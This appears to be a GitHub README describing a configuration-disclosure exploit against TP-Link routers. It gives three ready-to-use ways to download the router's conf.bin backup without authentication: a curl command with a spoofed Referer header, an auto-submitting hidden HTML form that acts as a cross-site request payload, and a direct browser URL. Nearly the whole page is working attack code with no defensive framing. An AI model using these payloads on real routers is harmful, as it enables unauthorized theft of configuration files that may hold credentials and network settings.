 # TP_Link Configuration Disclosure

## 1. using curl
```
curl http://192.168.0.1/cgi/conf.bin -H 'referer: http://192.168.0.1' > conf.bin`
```
## 2. using html:
```
<form id="autosubmit" action="http://192.168.0.1/cgi/conf.bin" method="GET">
   <input type="hidden" name="referer" value="http://192.168.0.1">
   <input type="submit" value="Submit Request" />
</form>

<script>
 document.getElementById("autosubmit").submit();
</script>
```

## 3. Using Browser:
```http://192.168.0.1/cgi/conf.bin?referer=http://192.168.0.1```


## NOTE: Not all router has same config path


